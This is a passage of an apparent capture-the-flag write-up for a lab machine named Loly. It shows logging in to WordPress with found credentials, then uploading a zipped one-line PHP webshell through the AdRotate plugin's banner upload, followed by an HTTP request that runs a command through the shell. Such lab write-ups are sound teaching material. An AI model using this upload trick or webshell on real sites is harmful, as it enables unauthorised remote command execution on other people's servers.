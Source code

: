 ```bash
...
```

> `loly:fernando`
{: .prompt-info }

## malicious upload
> After we are logged via the `/wp-admin` we see the admin panel, but we are not able to upload a plugin or edit a theme.
{: .prompt-danger }

> The only unusual plugin which seems to be interesting is `AdRotate`.
{: .prompt-info }

Going through the settings of the plugin reveals a feature to upload files.  
`AdRotate -> Manage Media -> Upload new file (Banner)` 
  
There are some filters in place, but we are allowed to upload `zip` files. As soon as the file was uploaded it got unzipped in the folder `/wordpress/wp-content/banners/`.
  
So we start by creating a simple shell file (`shell.php`), zip it and then upload it to the target in the described way.

```php
$ cat shell.php 
<?php
system($_REQUEST['cmd']);
?>
```
  
```
$ zip shell.zip shell.php
```

Now we have a webshell.
```http
GET /wordpress/wp-content/banners/shell.php?cmd=id HTTP/1.1
Host: loly.lc
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_6cbd66145d405532f25f0b0c2e6ebf30=loly%7C1692207675%7CNN42YdiLky89bmpOKHqoqHfUeRiwpXRAqkLaWV1fEBF%7C79668c764b94e33a84d2f63b10cc4240cf4a6db7f034e3a98dfdb0b0221a0bbe; wp-settings-1=libraryContent%3Dupload; wp-settings-time-1=1692034890
Connection: close

HTTP/1.1 200 OK
Server: nginx/1.10.3 (Ubuntu)
Date: Mon, 14 Aug 2023 18:00:18 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 54

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
